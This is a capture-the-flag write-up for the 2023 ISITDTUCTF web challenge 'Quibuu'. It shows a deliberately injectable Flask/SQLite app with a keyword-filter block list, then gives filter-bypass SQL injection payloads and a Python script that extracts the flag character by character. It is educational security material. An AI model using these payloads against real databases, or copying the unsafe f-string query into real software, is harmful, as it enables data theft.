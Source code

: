 ```yaml
---
title: 2023 ISITDTUCTF - Quibuu
author: thanguyen165
date: 2023-10-15 00:00:00 +0700
categories: [Write-ups, 2023_ISITDTUCTF]
tags: [Web Exploitation, SQL injection]
---
```


* 30 solves / 127 points
* Author: Discord _onsra_

## Description

> Hmmmmm, u are QuiBuu, right? xD

```py
from flask import Flask, render_template, request
import random
import re
import urllib.parse
import sqlite3

app = Flask(__name__)


def waf_cuc_chill(ans):
    # idk, I thought too much of a good thing
    ans = urllib.parse.quote(ans)
    pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
    if pattern.search(ans):
        return True
    return False

@app.route("/", methods=["GET"])
def index():
    ran = random.randint(1, 11)
    id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")

    if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
        id = 1
    

    db = sqlite3.connect("hehe.db")
    cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
    img = cursor.fetchone()[0]

    if waf_cuc_chill(ans):
        return render_template("hack.html")
    
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```
{: file="app.py" }

## Analyzation

Check around, the flag is in the database:
```
id = 1337, name=ISITDTU, URL = flag
```

So our target is sqli.

There are two sql queries:

```py
db = sqlite3.connect("hehe.db")
cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
img = cursor.fetchone()[0]
```

and

```py
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2
```

The first sql query is useless
```py
if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
    id = 1
```

```id``` will never reach ```1337```.

So the second query will be used, and to the ```ans``` variable. In this problem, error-based sqli works fine.

But we have to bypass ```waf``` first
```py
if waf_cuc_chill(ans):
    return render_template("hack.html")
```

These are some vulnerabilities of waf

- Two columns' name in the database are blocked, ```name``` and ```url```, but ```id```. And the table name ```QuiBuu``` is not blocked, too.

- Words of a query, like ```select```, ```from```, ```where```, etc. are not blocked

- It blocks all most white space, but ```\r```.

- The input string is not escaped.

- ```like``` is blocked, but ```glob``` can be used instead.

- ```substring()``` is blocked, but ```instr()```. That's the keypoint.

## Exploitation

Firstly, my idea was

```py
id = 10
ans = "Naruto' union select * from QuiBuu where url glob \'ISIT*"
ans = ans.replace(" ", "\r")
```

I tried to select ```url``` column with many ways. But it was not work.

**The right answer is union with another table.**

My final payload is
```py
id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{flag_guess}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")
```

- If ```flag_guess``` is correct, the right statement of ```OR``` will be ```1```, and the query will return all data in tables.

Another payload using ```GROUP_CONCAT()```.

```py
id = 10
ans = "a' OR (SELECT instr(( SELECT GROUP_CONCAT(\"pet\") FROM ( SELECT \"admin\", \"user\", \"pet\" UNION SELECT * FROM QuiBuu WHERE id=1337 ) ), \"{flag_guess}\"))/*"
ans = ans.replace(" ", "\r")
```

Now the third column is no longer ```url```, but ```pet```.

## Solution

```py
import requests
import string

ALPHABET = "_}" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL = "http://localhost:1301/?id={}&ans={}"

id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")

flag = "ISITDTU{"
while "}" not in flag:
    for c in ALPHABET:
        response = requests.get(URL.format(id, ans.format(flag + c)))
        if b"Haha QuiBuu" in response.content:
            flag = flag + c
            print(f"-----------flag_guess: {flag} ------------")
            break
print(URL.format(id, ans.format(flag + c)).encode())
```